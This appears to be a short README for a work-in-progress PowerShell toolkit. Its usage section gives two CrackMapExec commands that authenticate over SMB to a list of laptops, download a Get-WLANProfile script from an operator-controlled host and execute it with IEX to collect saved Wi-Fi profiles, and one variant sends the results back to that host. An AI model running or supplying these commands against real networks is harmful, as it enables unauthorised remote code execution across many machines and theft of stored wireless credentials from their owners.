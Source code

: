 # PSTools (WIP)

## Usage

ASYNC EXEC:
```cme smb laptops.lst -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile -AsyncURI http://$IP:8000;" --no-output```

SYNC EXEC:
```cme smb laptops.lst -u $USER$ -p $PASSWORD$ -X "IEX (new-object net.webclient).downloadstring('http://$IP:8000/Get-WLANProfile.ps1'); Get-WLANProfile;"```

## Acknowledgments
* I copied and modified some scripts from here: https://github.com/BornToBeRoot/PowerShell
